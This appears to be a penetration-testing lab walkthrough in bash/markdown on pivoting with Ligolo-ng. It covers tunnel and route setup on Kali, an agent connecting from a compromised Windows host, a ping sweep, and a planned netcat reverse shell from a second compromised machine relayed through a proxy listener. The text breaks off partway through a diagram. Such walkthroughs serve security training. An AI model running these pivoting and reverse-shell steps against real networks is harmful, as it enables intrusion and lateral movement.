 ```bash

#2.Setup Tun Interface on Kali:
`sudo ip tuntap add user "your-Kali-User" mode tun ligolo`  
`sudo ip link set ligolo up`  

#3.Start Ligolo Proxy on Kali:  
`./proxy --selfcert`  

#4.execute Ligolo Agent to Compromised Machine:  
`.\agent.exe -ignore-cert -connect 192.168.232.153:11601`  

#5.Interact with Sessions via Ligolo Proxy**:  
`session` #1 Ligolo-1 
`ifconfig` #192.168.8.129
`start` #establishing a connection between kai & Ligolo-1 

#6.Add Route to New Subnet on Kali**:  
`sudo ip route add 192.168.8.0/24 dev ligolo`  

#7.Ping the New Subnet:  
`ping 192.168.8.129` 

#8.Ping Sweep to Discover Hosts:  
for i in {1..254} ;do (ping -c 1 192.168.8.$i | grep "from" &) ;done 

#9.Execute Reverse Shell from Ligolo-2 to Kali:
###########################################
#=>(Found : Ligolo-2 Machine 192.168.8.130) 
#=> exploit RCE on Ligolo-2
##########################################

# [+] # upload netcat and establish a reverse shell on Ligolo-2
# [-] kali -----> Ligolo-2 # we  connect to kali from Ligolo-2
# [-] kali <-- X -- Ligolo-2 # we can't connect to kali from Ligolo-2

# To resolve this issue we need to set up a listener in Ligolo's proxy: Essentially, this listener will be responsible for forwarding traffic from port 8080 on the compromised machine to port 80 on our local Kali machine.

+------------------------------------------------------------+
| Compromised Machine (Ligolo-2)                             |
| IPs:  192.168.119.128  /  192.168.8.130                    |
|                                                            |
+------------------------------------------------------------+
                |
                | 192.168.8.129:8080
                v
+------------------------------------------------------------+
| Compromised Machine (Ligolo-1)                             |
| IPs: 192.168.232.133 / 192.168.8.129                       |
| [+] Logolo-ng Agent  & pivot machine                       |
+------------------------------------------------------------+
                |
                | (Traffic Forwarding)
                v
+------------------------------------------------------------+
| Ligolo Proxy Listener                                      |
| listener_add — addr 0.0.0.0:8080 — to 127.0.0.1:80 — tcp   |
+------------------------------------------------------------+
                |
                | (Traffic Received) 192.168.232.153:80
                v
+------------------------------------------------------------+
```